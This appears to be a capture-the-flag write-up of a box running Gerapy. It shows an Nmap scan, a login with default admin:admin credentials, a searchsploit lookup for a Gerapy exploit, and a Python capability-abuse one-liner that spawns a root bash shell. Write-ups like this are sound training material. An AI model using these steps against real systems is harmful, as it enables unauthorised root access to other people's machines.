 #Pwned! 

## Nmap
```
PORT     STATE SERVICE  REASON         VERSION                                                                                                                                                                                             
22/tcp   open  ssh      syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)                                                                                                                                                 
| ssh-hostkey:                                                                                                                                                                                                                             
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)                                                      
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)                                                                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa                                                                                                                                                         
8000/tcp open  http-alt syn-ack ttl 61 WSGIServer/0.2 CPython/3.10.6                                                                                                                                                                       
|_http-title: Gerapy                                                                                                                                                                                                                       
| http-methods:                                                                                                                                                                                                                            
|_  Supported Methods: GET OPTIONS                                                                                                                                                                                                         
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
```

## Nmap UDP


# Enumeration

## HTTP

Searching for WSGIServer/0.2 CPython/3.10.6

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

page not found
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102006.png?raw=true)

/admin
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102203.png?raw=true)

admin:admin let us in

adding some clients and tokens

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102403.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102447.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102711.png?raw=true)

With this we can access the site

we could access it even with admin:admin

```
searchsploit gerapy
```
returns an exploit that works as follows:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924115623.png?raw=true)

# PrivEsc

## Manual
## Automated

### Peass

linpeas into

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924121413.png?raw=true)
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities
```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924121037.png?raw=true)


### Mimikatz


